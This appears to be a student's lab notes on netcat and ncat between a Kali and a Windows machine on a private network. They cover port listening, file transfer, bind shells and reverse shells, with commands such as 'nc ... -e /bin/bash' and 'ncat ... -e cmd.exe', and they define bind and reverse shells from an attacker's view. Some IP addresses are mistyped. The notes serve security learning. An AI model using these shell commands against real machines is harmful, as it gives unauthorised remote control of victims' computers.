# Content

- [Content](#content)
  - [Setup](#setup)
  - [Listening on a TCP/UDP Port](#listening-on-a-tcpudp-port)
  - [Transferring Files with Netcat](#transferring-files-with-netcat)
  - [Remote Administration with Netcat](#remote-administration-with-netcat)
    - [Scenario](#scenario)
    - [From Window connect to Kali](#from-window-connect-to-kali)
    - [From Kali connect to Window](#from-kali-connect-to-window)
  - [Reverse Shell Scenario](#reverse-shell-scenario)
    - [Scenario](#scenario-1)
    - [From Window connect to Kali](#from-window-connect-to-kali-1)
    - [From Kali connect to Window](#from-kali-connect-to-window-1)
  - [Different between bind shell and reverse shell](#different-between-bind-shell-and-reverse-shell)
  
## Setup

- I use a Kali machine with IP: 192.168.50.156
- I use a Windows machine with IP: 192.168.50.10
- Of course, two machine can connect with other.

## Listening on a TCP/UDP Port

- In Window machine, i use `nc -nlvp 4444` to listen on port 4444
  - `-n`: Do not do any DNS or service lookups on any specified addresses, hostnames or ports.
  - `-l`: Used to specify that nc should listen for an incoming connection rather than initiate a connection to a remote host.
  - `-v`: Have nc give more verbose output.
  - `-p`: Specifies the source port nc should use, subject to privilege restrictions and availability.
  

- In Kali machine, i use `nc -nv 192.168.50.10 4444` to connect to Window machine.
  

- I create a connection between two machine and can send message from Kali to Window.
  
  

## Transferring Files with Netcat

- In Window machine, i use `nc -nlvp 4444 > incoming.exe` to listen on port 4444 and save data to incoming.exe
  
- In Kali machine, i use `nc -nv 192.168.50.10 4444 < /usr/share/windows-resources/binaries/wget.exe` to connect to Window machine and send wget.exe to Window machine.
  
- In Window machine, i can see wget.exe file.
  
  
## Remote Administration with Netcat
  ### Scenario
  - In this case, Bob is running the Windows operating system and asks for help from Alice, who is running Linux. Bob wants Alice to connect to his computer and execute some commands remotely. Bob has a public IP address and is directly connected to the Internet. However, Alice is using a NAT connection and has an internal IP address.
  - To complete the scenario, Bob needs to bind cmd.exe to a TCP port on his public IP address and ask Alice to connect to that particular IP address and port. This means that Bob will open a port on his firewall and allow outside traffic to his computer through that port. After Alice connects to Bob's specified IP and port, Bob can communicate with remote Alice and ask her to execute specific commands on his computer.
  - 
  ### From Window connect to Kali

- In Window machine, i use `ncat -nlvp 4444 -e cmd.exe` to listen on port 4444 with the -e option to execute cmd.exe once a connection is made to the listening port
  
- In Kali machine, i use `nc -nv 192.168.50.10 4444` to connect to Window machine.
  
- I can execute command in Window machine from Kali machine.
  

### From Kali connect to Window

- In Kali machine, i use `ncat -nlvp 4444 -e /bin/bash` to listen on port 4444 with the -e option to execute /bin/bash once a connection is made to the listening port
  
- In Window machine, i use `nc -nv 192.168.50.156 4444` to connect to Kali machine and execute some command.
  .

- In windows, `cmd.exe` is the default command, while in Linux, `/bin/bash` is the default shell.

## Reverse Shell Scenario

  ### Scenario
  
  - In our second scenario, Alice needs help from Bob. However, Alice has no control over the router in her office, and therefore cannot forward traffic from the router to her internal machine.
  - In this scenario, we can leverage another useful feature of Netcat; the ability to send a command shell to a host listening on a specific port. In this situation, although Alice cannot bind a port to /bin/bash locally on her computer and expect Bob to connect, she can send control of her command prompt to Bob’s machine instead. 
  
### From Window connect to Kali

- In Windows, i use `ncat -nlvp 4444`.
  
- In Kali, i use `nc -nv 192.160.50.10 4444 -e /bin/bash`.
  
- So from Windows, i can execute command in the Kali machine. Command line `ifconfig`
  

### From Kali connect to Window

- In Kali, i use `nc -nlvp 4444`.
  
- In Windows, i use `ncat -nv -nv 192.160.50.156 4444 -e cmd.exe`.
  
- So from Kali, i can execute command in the Kali machine. Command line `ipconfig`
  

## Different between bind shell and reverse shell

- Bind shell: An attack technique that allows an attacker to create a listening service on the victim's machine on a port, when the attacker connects to that port, a shell session is established so that the attacker can take control of the machine. victim's character. With the bind shell, the attacker needs to gain access to the victim's computer, for example through a piece of malware that was previously installed on the victim's computer.
- Reverse shell: An attack technique that allows the attacker to create a connection from the victim's machine to the attacker's machine on a port, after which the attacker will have a shell session set up to take control of the victim's computer. Compared to bind shell, reverse shell does not require the attacker to have access to the victim's computer before, instead the attacker uses a malicious software or a security hole on the victim's computer to exploit. waterfall.

